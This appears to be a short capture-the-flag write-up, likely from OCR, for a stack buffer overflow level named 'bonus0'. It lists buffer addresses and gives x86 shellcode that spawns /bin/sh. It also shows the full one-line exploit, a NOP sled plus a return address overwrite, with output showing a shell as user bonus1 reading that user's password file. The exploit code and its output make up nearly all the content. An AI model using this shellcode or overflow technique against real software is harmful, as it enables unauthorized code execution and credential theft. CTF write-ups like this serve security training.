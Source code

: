 start of buffer: 0xbffff6f6

buffer end addr:	0xbffff733
					0xb7fd0ff4


buffer's end addr: 0xbffff72c


4096 buffer start addr: 0xbfffe660   \x60\xe6\xff\xbf


shellcode : 
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

0xbffff730 - 0xbffff6f6 = 0x14 = 20


```sh
$> (python -c 'print("\x90"*1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")'; python -c 'print("\x90"*9 + "\xc0\xe6\xff\xbf" + "\x90"*7)'; cat) | ./bonus0
 - 
 - 
[...]
whoami
bonus1
cat /home/user/bonus1/.pass 
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
